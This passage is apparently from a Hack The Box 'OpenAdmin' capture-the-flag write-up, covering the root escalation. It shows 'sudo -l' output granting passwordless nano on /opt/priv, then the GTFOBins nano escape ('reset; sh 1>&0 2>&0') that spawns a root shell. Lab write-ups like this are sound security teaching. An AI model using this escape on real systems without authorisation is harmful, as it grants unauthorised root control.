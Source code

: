 ![Joanna Flag](/assets/images/HTB/openAdmin/joanna-flag.png)  

## Root Shell  

Right off the bat we find a couple commands that joanna can execute with sudo:  

```bash
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```  

/bin/nano strikes me as very interesting because I have done easy priv. esc. with sudo privileges on vim before.  
Additionally, /opt/priv is an empty file of no type.  

If we do some Googling, we discover some ways to escalate [privileges with nano](https://gtfobins.github.io/gtfobins/nano/) :  

![Nano Shell](/assets/images/HTB/openAdmin/nano-esc.png)  

This looks like the answer.  

```bash
joanna@openadmin:~$ sudo nano /opt/priv

#Inside the empty nano window: 
CTRL+R
CTRL+X
reset; sh 1>&0 2>&0
ENTER
```  
